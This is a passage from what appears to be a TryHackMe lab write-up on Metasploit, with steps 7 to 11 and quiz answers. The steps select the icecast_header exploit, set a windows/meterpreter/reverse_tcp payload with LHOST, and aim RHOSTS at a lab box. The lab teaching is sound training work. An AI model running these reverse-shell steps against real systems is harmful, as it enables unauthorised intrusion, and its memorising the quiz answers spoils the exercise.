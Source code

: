 	![icecast](/assets/img/tryhackme/metasploit/metasploit3.png)
	
	`exploit/windows/http/icecast_header`

7. While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command `use NUMBER_NEXT_TO exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

	![search](/assets/img/tryhackme/metasploit/metasploit4.png)
	
	`#`

8. Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results.

9. Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.

10. Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

11. One last step before we can run our exploit. Run the command 'set RHOSTS BOX_IP' to tell Metasploit which target to attack.
